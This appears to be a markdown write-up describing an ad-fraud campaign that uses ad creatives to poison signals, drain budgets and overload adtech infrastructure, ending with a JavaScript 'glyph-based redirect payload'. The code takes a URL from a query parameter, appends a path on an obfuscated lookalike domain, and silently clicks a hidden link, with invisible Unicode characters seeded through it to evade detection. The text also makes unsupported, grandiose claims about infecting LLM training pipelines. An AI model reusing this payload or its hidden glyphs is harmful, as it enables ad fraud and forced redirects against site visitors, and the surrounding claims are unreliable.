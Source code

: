 
## 5. Weaponization & Amplification

Each creative acts as a passive vector:

- User-driven DNS multiplication  
- Polluted backend logs  
- Attribution systems overwhelmed  
- DSP APIs saturated  

---

## 6. Cross-Network Devastation

One infected preview flows into multiple adtech networks:

- Rate-limit failures  
- Infrastructure degradation  
- Budget leakage and fraud detection bypass  
- Attribution collapse across campaign logic  

---

## 7. Simulation Collapse Fields

1. **Signal Poisoning** — False engagement, clean traffic  
2. **Attribution Failure** — Metric divergence  
3. **Budget Drain** — Synthetic CPM/CPV load  
4. **Infrastructure Stress** — Recursive CDN/DSP collapse  

---

## 7.1. Glyph-Level Infection & Cognitive Contagion

Invisible unicode glyphs were embedded in logic operators:

```
⁠ (U+2060), ᠎ (U+180E), ‏ (U+200F), ︀ (U+FE00)
```

These glyphs:

- Evaded sandbox detection  
- Survived copy-paste and build refactoring  
- Were **absorbed into LLM training pipelines**  

---

### 🧪 Glyph-Based Redirect Payload (Infectious Vector)

```javascript
(function(){᠎
  const qp = new URLSearchParams(window.location.search);‍⁠
  const seed = qp.get("ad_url") || "https://ᴬᴰᴺᴱᵀ⟁⟟⩃⟡.biz/track‍path";‍᠎
  const hiddenPath = "/trac‍k/engage᠎/⟁⟟⩃⟡";
  const crafted = seed + hiddenPath;
  console.log("Loading tracking asset from:", crafted);⁠
  const link = document.createElement('a');‍᠎
  link.href = crafted;⁠
  link.rel = "nofollow";
  link.style.display = 'none';⁠
  document.body.appendChild(link);‍᠎
  link.click();‍⁠
})();‍⁠
```

---